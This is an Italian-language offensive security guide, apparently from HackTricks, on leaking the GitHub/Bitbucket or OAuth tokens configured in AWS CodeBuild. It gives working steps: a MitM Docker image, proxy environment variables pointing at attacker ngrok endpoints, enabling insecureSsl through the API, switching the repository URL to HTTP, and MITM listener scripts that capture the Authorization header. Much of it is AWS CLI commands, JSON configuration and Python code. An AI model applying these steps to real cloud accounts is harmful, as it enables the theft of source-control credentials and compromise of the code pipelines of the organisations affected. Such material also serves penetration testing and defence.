 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Recupera i Token Configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali di origine configurate che potresti leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
- Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
- **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
- Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
- Una volta che hai costruito l'immagine Docker, **caricala su un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
- Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
- Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

- Come indicato nel **repo Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.

4. **Esegui la build e cattura le credenziali**

- Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

I progetti **Codebuild** hanno un'impostazione chiamata **`insecureSsl`** che è nascosta nel web e puoi cambiarla solo dall'API.\
Abilitando questo, consente a Codebuild di connettersi al repository **senza controllare il certificato** offerto dalla piattaforma.

- Prima devi enumerare la configurazione attuale con qualcosa come:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Quindi, con le informazioni raccolte, puoi aggiornare l'impostazione del progetto **`insecureSsl`** a **`True`**. Di seguito è riportato un esempio del mio aggiornamento di un progetto, nota il **`insecureSsl=True`** alla fine (questo è l'unica cosa che devi cambiare dalla configurazione raccolta).
- Inoltre, aggiungi anche le variabili d'ambiente **http_proxy** e **https_proxy** che puntano al tuo tcp ngrok come:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Quindi, esegui l'esempio di base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http_proxy e https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via protocollo HTTP~~

> [!TIP] > **Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**

Un attaccante con **permessi elevati su un CodeBuild potrebbe leakare il token Github/Bitbucket** configurato o se i permessi sono stati configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

- Un attaccante potrebbe aggiungere le variabili ambientali **http_proxy** e **https_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Poi, cambiare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: `http://github.com/carlospolop-forks/TestActions`
- Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http_proxy e https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Successivamente, fai clic su **Build the project** o avvia la build dalla riga di comando:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Infine, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Ora un attaccante sarà in grado di utilizzare il token dalla sua macchina, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.

{{#include ../../../../banners/hacktricks-training.md}}
